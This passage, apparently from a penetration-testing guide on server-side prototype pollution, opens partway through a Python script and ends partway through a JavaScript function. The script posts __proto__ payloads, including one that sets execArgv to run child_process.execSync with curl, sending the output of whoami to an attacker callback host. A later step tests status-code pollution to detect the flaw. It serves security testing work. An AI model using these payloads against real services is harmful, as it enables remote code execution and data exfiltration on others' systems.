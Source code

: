                    "__proto__": {
                       "execArgv": [
                           f"--eval=require('child_process').execSync('curl {callback_url}/$(whoami)')"
                       ]
                   }
               }
           ]
           
           for i, payload in enumerate(payloads):
               print(f"Trying payload {i+1}...")
               try:
                   response = requests.post(url, json=payload, timeout=5)
                   print(f"Response status: {response.status_code}")
                   # Need to wait for the callback to potentially happen
                   time.sleep(3)
               except Exception as e:
                   print(f"Error: {e}")
           
           print("Check your callback server for incoming requests indicating successful RCE")
       
       # Example usage
       test_child_process_pollution(
           "https://vulnerable-api.com/api/user/update",
           "http://attacker-callback.com"
       )
       ```

    3. **Status code and error message manipulation**:
       - Step 1: Identify error responses that include status codes
       - Step 2: Attempt to pollute the status property:
       ```json
       {
         "__proto__": {
           "status": 555,
           "statusCode": 555
         }
       }
       ```
       - Step 3: Trigger an error in the application (e.g., send invalid input)
       - Step 4: Check if the response contains the custom status code
       - Step 5: Use this confirmation to verify prototype pollution exists
       - Example: Applications using Express or similar frameworks
       - Testing insight: This technique is useful for detecting pollution when other effects aren't visible
       - JavaScript function for status code pollution testing:
       ```javascript
       async function testStatusPollution(url) {
           // First, try to pollute status property
           const pollutionResponse = await fetch(url, {
               method: 'POST',
               headers: { 'Content-Type': 'application/json' },
               body: JSON.stringify({
                   "__proto__": {
                       "status": 555,
                       "statusCode": 555,
                       "message": "PP_TEST_SUCCESSFUL"
                   }
               })
           });
           